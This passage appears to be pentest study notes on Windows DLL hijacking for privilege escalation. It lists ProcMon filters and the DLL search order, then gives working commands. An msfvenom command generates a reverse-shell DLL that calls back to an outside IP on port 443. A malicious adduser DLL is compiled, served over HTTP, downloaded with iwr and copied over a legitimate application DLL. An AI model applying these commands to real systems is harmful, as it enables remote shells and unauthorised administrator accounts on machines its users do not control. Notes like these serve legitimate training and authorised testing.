 ```powershell
net stop serviceName
net start ServicesName
```

## Hickjacking DLLs

* Download `https://learn.microsoft.com/en-us/sysinternals/downloads/procmon`
* View running processes
* Use `ProcMon` to find (un)loaded DLLs
  * Limitation: Requires Admin privileges
  * Operation CreateFile
  * Filter: Process Name
  * Result: NAME NOT FOUND
* Craft a DLL that will be loaded by the user
* Replace the DLL file loaded by an application

DLL default loading path

```plain
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

```powershell
# List installed programs
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
# start procmon64.exe with admin permissions
Start-Process -Verb Runas procmon64.exe
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f dll
# Compile replacement file and host with http server
cd tools
x86_64-w64-mingw32-gcc win-dll-adduser.c --shared -o win-dll-adduser.dll
sudo cp win--dll-adduser.dll /var/www/html
```

```powershell
# Download and replace service
iwr -uri http://192.168.1.2/win-dll-adduser.dll -o adduser.dll
copy adduser.dll Path/to/file.dll

# Verify exploit
net user
Get-Process filezilla -Module | Group -Property FileName | Select Name
```

## Exploit Scheduled Tasks
